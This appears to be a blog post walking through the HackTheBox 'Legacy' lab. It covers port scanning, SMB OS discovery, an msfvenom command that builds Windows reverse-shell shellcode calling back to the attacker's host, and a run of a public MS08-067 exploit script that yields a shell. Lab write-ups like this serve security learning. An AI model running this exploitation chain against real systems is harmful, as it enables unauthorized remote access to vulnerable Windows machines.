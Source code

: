 ```yaml
---
layout: post
title:  "HackTheBox >_ Legacy_4"
description: walkthrough
category: HackTheBox
---
```

# Legacy_4

![]({{ site.url }}/assets/Legacy_4.assets/20201119144731410_946917931.png)

`rustscan 10.10.10.4 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Legacy_4.assets/20201119145134761_422717789.png)

`nmap -v -Pn -p 139,445 --script=smb-os-discovery 10.10.10.4`

![]({{ site.url }}/assets/Legacy_4.assets/20201119145043441_1995842047.png)

![]({{ site.url }}/assets/Legacy_4.assets/20201119145322500_741975447.png)


`https://github.com/andyacer/ms08_067/blob/master/ms08_067_2018.py`

生成shellcode 替换脚本中的部分

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`

![]({{ site.url }}/assets/Legacy_4.assets/20201119150620629_332681880.png)

`python ms08-067.py 10.10.10.4 6 445`

![]({{ site.url }}/assets/Legacy_4.assets/20201119150641638_1484424019.png)


监听处立即获得shell

![]({{ site.url }}/assets/Legacy_4.assets/20201119150354409_2091283247.png)
